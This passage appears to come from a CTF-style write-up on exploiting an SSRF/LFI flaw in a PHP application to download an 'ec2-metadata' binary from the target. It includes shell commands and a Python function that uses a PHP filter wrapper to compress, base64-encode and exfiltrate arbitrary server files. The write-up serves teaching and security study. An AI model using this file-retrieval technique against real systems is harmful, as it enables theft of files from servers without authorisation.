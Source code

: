 ### `ec2-metadata` Binary

If we try and fetch the `/opt/imds/ec2-metadata` binary directly, the file returned
generates errors when run:

``` shell-session
$ python3 apply-ssrf.py --file /opt/imds/ec2-metadata > ec2-metadata

$ file ec2-metadata
ec2-metadata: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), no program header, missing section headers at 125467397854331328

$ chmod 755 ec2-metadata

$ ./ec2-metadata
bash: ./ec2-metadata: cannot execute binary file: Exec format error
```

However, we can utilize [PHP
filters](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers)
in the SSRF/LFI vulnerability to compress and base64 encode the file before
we retrieve it, then write a function to reverse the process, saving the resulting
data stream to a file:

``` python
    def do_largefile(self, args):
        '''Fetch a large file, using PHP filters to compress and base64 encode'''
        if args != '':
            filename = os.path.basename(args)
            path = f'php://filter/zlib.deflate/convert.base64-encode/resource={args}'
            data = fetch(path)

            if data != '':

                # zlib.decompress with a negative window size will ignore header
                # and footer values. Magic.
                data = zlib.decompress(base64.b64decode(data), -15)
                with open(filename, 'wb') as file:
                    file.write(data)
                print('Wrote {} bytes to {}'.format(len(data), filename))
            else:
                print('No data returned.')

            print()
```

The PHP filter sends the file specified via the `resource=` through two filters:

- first, the file is compressed via the 'deflate` algorithm
- then the compressed data is base64-encoded

The Python function reverses the process: base64-decoding the data returned from 
the `fetch()` function, then decompressing it via the `zlib` module. One quirk with
decompressing `deflate` data with `zlib`: the library expects the data to contain
a header and footer in the data, which PHP's `zlib` doesn't include. However, 
specifying a negative windows size to the `decompress()` function causes the
library to not look for the header and footer. Using this `largefile` function,
we can successfully fetch the `ec2-metadata` binary:
